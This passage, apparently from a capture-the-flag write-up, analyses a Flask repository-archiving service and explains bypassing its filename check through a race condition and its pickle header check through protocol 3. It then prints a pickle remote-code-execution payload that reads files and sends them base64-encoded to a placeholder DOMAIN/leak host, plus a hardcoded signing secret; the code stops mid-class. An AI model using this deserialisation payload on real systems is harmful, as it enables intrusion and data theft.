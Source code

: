 ```py
@analyze_bp.route('/analyze', methods=['POST'])
def analyze():
    [snipped]
    valid_url = f"https://codeload.github.com/{username}/{repo_name}/zip/refs/heads/{branch}?token={token}"
    # unzip and save in internal folder to check the content
    dir = UnzipAndSave(valid_url, repo_name, username, "/tmp")
    if not dir:
        return "failed to download the zip", 400
    # check for a reserved file name, if it exists return an error
    for file in os.listdir(f"{dir}/{repo_name}-{branch}"):
        if fnmatch.fnmatch(file, "mark4archive"):
            return "mark4archive is reserved to our service, please choose another name for your file", 400
        try:
            with open(f"{dir}/{repo_name}-{branch}/{file}", "rb") as f:
                first_two_bytes = f.read(2)
                if first_two_bytes == b'\x80\x04':
                    return "This Beta version of the app can't handle this kind of files!", 400
        except Exception as e:
            print("error: ", e)
    [snipped]
    # Delete the previously created folders internally
    shutil.rmtree(dir)
    # All checks done, relase to a public path
    user_access = UnzipAndSave(
        valid_url, repo_name, username, "public")
    sig = create_signed_mark(f"{user_access}/{repo_name}-{branch}", result)
    return "token: " +user_access.split("/")[1]
```
`UnzipAndSave()` is called twice, so if we can change the filename back to `mark4archive` just after the first download is done we could bypass the first check.

regarding the second check `b'\x04'` in the header `b'\x80\x04'` is actually the version of pickle protocol, so we can use version 3 when pickling our exploit and this check would also be bypassed.

i created a private GitHub repo with over 400 files just to slow down the whole process:

![repo](assets/repo.png)

pickled my RCE payload using protocol V3:

```py
import pickle
import base64
import os
import hmac

TMP_SECRET = bytes("veryHardSecRetBySecurinetsIhopeYoudontBruteForceThisONeCUzIamlazytoGnereate", "utf-8")
def generateSig(data_bytes, key_bytes):
    signature = hmac.new(key_bytes, data_bytes, digestmod='sha256').hexdigest()
    return signature

class RCE:
    def __reduce__(self):
        cmd = ('python3.7 -c "__import__(\'requests\').get(\'https://DOMAIN/leak?flag=\'+__import__(\'os\').popen(\'cat /* | base64\').read().strip())"')
```